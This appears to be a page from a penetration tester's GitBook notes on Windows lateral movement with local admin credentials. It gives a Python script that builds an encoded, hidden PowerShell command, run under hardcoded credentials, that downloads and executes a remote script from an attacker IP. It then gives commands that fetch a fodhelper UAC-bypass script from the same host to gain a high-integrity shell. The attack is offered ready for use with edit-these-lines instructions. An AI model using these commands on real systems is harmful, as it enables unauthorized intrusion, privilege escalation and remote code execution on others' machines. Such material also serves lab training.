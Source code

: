 # Local Admin Lateral Movement

Useful if unable to PsExec, RDP, WINRM, but has local admin creds and low-privileged shell

**ps\_script.py**

* Edit lines 5-6 to be local admin creds
* Edit line 8 for attacker's IP for simple\_ps\_revshell

{% code lineNumbers="true" %}
```python
import base64

# Prepare the corrected PowerShell payload script to run as Bill
payload = (
    "$p=ConvertTo-SecureString 'P@ssw0rd123!' -AsPlainText -Force; "
    "$c=New-Object System.Management.Automation.PSCredential('client02\\bill',$p); "
    "Start-Process -FilePath 'powershell.exe' -ArgumentList "
    "'-NoProfile -ExecutionPolicy Bypass -Command iex (New-Object Net.WebClient).DownloadString(''http://192.168.45.218/runall.ps1'')' "
    "-Credential $c -WindowStyle Hidden"
)

# Encode the payload in UTF-16LE and then Base64
b64 = base64.b64encode(payload.encode('utf-16le')).decode('ascii')

# Construct the final one-liner for execution
one_liner = f"powershell.exe -NoProfile -NonInteractive -EncodedCommand {b64}"

# Display the one-liner
print(one_liner)
```
{% endcode %}

python ps\_script.py

<figure><img src="../.gitbook/assets/image (335).png" alt=""><figcaption></figcaption></figure>

Then paste the encoded powershell command in the low privileged shell

<figure><img src="../.gitbook/assets/image (336).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (337).png" alt=""><figcaption><p>This is normal!</p></figcaption></figure>

Might obtain a medium integrity shell only (checked using `whoami /all`)

<figure><img src="../.gitbook/assets/image (5) (1) (1).png" alt=""><figcaption></figcaption></figure>

[Bypass UAC using fodhelper.ps1](../privilege-escalation/privilege-escalation-windows.md#user-in-local-group-with-admin-privileges-uac-bypass)

```
iex (new-object net.webclient).downloadstring('http://192.168.45.218/FodhelperBypass.ps1')

# Edit IP and port in simple_ps_revshell.ps1
FodhelperBypass -program "powershell -c iex (new-object net.webclient).downloadstring('http://192.168.45.218/runall.ps1')"
```

Obtained high integrity shell&#x20;

<figure><img src="../.gitbook/assets/image (338).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (339).png" alt=""><figcaption></figcaption></figure>
